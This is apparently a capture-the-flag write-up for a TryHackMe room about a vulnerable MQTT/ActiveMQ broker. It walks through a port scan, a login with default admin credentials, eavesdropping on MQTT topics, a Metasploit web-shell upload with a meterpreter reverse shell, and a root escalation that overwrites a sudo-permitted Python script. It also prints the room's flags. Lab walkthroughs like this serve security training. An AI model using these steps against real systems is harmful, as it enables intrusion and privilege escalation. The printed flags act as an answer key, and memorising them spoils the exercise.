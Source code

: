 # Overpass
https://tryhackme.com/room/broker

This room involves exploiting a vulnerable MQTT broker to gain access to the server.

## Recon
```
┌──(kali㉿kali)-[~]
└─$ rustscan -a 10.10.63.63
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 10:23 EDT
Nmap scan report for 10.10.63.63
Host is up, received echo-reply ttl 61 (0.086s latency).
Scanned at 2025-07-09 10:23:43 EDT for 1s

PORT      STATE SERVICE     REASON
22/tcp    open  ssh         syn-ack ttl 61
1883/tcp  open  mqtt        syn-ack ttl 61
8161/tcp  open  patrol-snmp syn-ack ttl 61
43619/tcp open  unknown     syn-ack ttl 61
```
I scan the server for open ports and two catch my eye: 1883 and 8161. Rustscan tells us that port 1883 is being used by a MQTT broker and that port 8161 is running a web service.

![](1.png)

I visit `http://10.10.63.63:8161/` and find out that Apache ActiveMQ is running on this port. This reveals our second flag. There's a login form that I can submit by clicking "Manage ActiveMQ broker". I looked up the default credentials for ActiveMQ (admin:admin) and they end up working.

I can now take a look at the active topics and see that there are quite a few messages on the "secret_chat" topic.

![](2.png)

I can use a tool called mosquitto to connect to the broker service and read the messages being sent under the "secret_chat" topic.

> *I had a little bit of difficulty connecting until I realized that the room specified that I need to use MQTT version 3.1 when connecting.*

```
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.63.63 -p 1883 -t "#" -V "mqttv31" -v
secret_chat Paul: Hey, have you played the videogame 'Hacknet' yet?
secret_chat Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)
secret_chat Paul: Sounds awesome, I will totally try it out then ^^
secret_chat Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!
secret_chat Paul: Hey, have you played the videogame 'Hacknet' yet?
secret_chat Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)
secret_chat Paul: Sounds awesome, I will totally try it out then ^^
secret_chat Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!
```

Now that we have the third flag, we can move on to gaining access to the server. I couldn't find any interesting subdomains, so I figured that I'd look for a vulnerability in ActiveMQ. 

## Logging In
```
┌──(kali㉿kali)-[~]
└─$ searchsploit activemq
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
ActiveMQ < 5.14.0 - Web Shell Upload (Metasploit)              | java/remote/42283.rb
Apache ActiveMQ 5.11.1/5.13.2 - Directory Traversal / Command  | windows/remote/40857.txt
Apache ActiveMQ 5.2/5.3 - Source Code Information Disclosure   | multiple/remote/33868.txt
Apache ActiveMQ 5.3 - 'admin/queueBrowse' Cross-Site Scripting | multiple/remote/33905.txt
Apache ActiveMQ 5.x-5.11.1 - Directory Traversal Shell Upload  | windows/remote/48181.rb
Apache ActiveMQ 6.1.6 - Denial of Service (DOS)                | multiple/remote/52288.py
--------------------------------------------------------------- ---------------------------------
```

Turns out that there's a shell upload exploit that I can use in metasploit.

```
┌──(kali㉿kali)-[~]
└─$ msfconsole

msf6 > search activemq

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   exploit/multi/http/apache_activemq_upload_jsp             2016-06-01       excellent  No     ActiveMQ web shell upload

msf6 > use 0
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_activemq_upload_jsp) > set RHOSTS 10.10.63.63
RHOSTS => 10.10.63.63
msf6 exploit(multi/http/apache_activemq_upload_jsp) > exploit
```
I was able to get a meterpreter session and create a shell from there as the activemq user.

## Flag.txt
```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls
ls
LICENSE  README.txt              bin      conf  flag.txt  start.sh      tmp
NOTICE   activemq-all-5.9.0.jar  chat.py  data  lib       subscribe.py  webapps
activemq@activemq:/opt/apache-activemq-5.9.0$ cat flag.txt
cat flag.txt
THM{you_got_a_m3ss4ge}
```
The flag.txt was very easy to get since it's just right there in the home directory.

## Root.txt
I decide to run `sudo -l` to see if I can run any commands as root and find that I can run subscribe.py as root.

```
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

This means I can just echo some code to spawn a shell to the python file and run it as root.

```
activemq@activemq:/opt/apache-activemq-5.9.0$ echo 'import pty;pty.spawn("/bin/bash")' > subscribe.py
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt/apache-activemq-5.9.0# whoami
root
root@activemq:/opt/apache-activemq-5.9.0# cd /root; ls
root.txt
root@activemq:~# cat root.txt
THM{br34k_br0k3_br0k3r}
```
There we go, that's all the flags for this room.
